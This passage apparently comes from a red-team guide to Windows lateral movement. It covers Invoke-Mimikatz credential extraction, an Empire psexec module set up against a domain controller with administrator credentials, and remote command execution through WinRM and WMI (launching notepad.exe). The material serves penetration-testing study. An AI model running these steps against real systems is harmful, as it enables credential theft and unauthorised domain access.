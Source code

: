 **Tool Explanation:**
- **Invoke-Mimikatz**: PowerSploit credential extraction module
- **-Command**: Mimikatz commands to execute
- **Remote Execution**: Run on remote systems via PowerShell remoting
- **Advantages**: Credential extraction, memory analysis, powerful features
- **Disadvantages**: Highly detectable, may trigger AV, requires PowerSploit

#### **Empire - PowerShell Remoting Module**
```powershell
# Empire PowerShell remoting module
usemodule powershell/management/psexec

# Set options
set ComputerName US-DC01
set Username administrator
set Password Password123

# Execute
execute
```

**Tool Explanation:**
- **Empire**: Post-exploitation framework with PowerShell remoting
- **psexec module**: Remote command execution
- **Advantages**: Framework integration, multiple execution methods, stealth options
- **Disadvantages**: Requires Empire setup, learning curve, detection risk

### 4. Alternative Remoting Methods

#### **WinRM (Windows Remote Management)**
```cmd
# WinRM command line
winrm enumerate winrm/config/listener

# Test WinRM connectivity
winrm id -r:US-DC01

# Execute command via WinRM
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:US-DC01
```

**Tool Explanation:**
- **WinRM**: Windows Remote Management service
- **winrm enumerate**: List WinRM configuration
- **winrm id**: Test connectivity
- **winrm invoke**: Execute WMI commands
- **Advantages**: Native Windows service, WMI integration, configuration options
- **Disadvantages**: Command line only, limited scripting, verbose output

#### **WMI (Windows Management Instrumentation)**
```powershell
# WMI remote execution
Get-WmiObject -Class Win32_Process -ComputerName "US-DC01"

# Remote WMI query
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName "US-DC01"

# WMI event subscription
Register-WmiEvent -Class Win32_ProcessStartTrace -SourceIdentifier "ProcessStarted" -ComputerName "US-DC01"
```
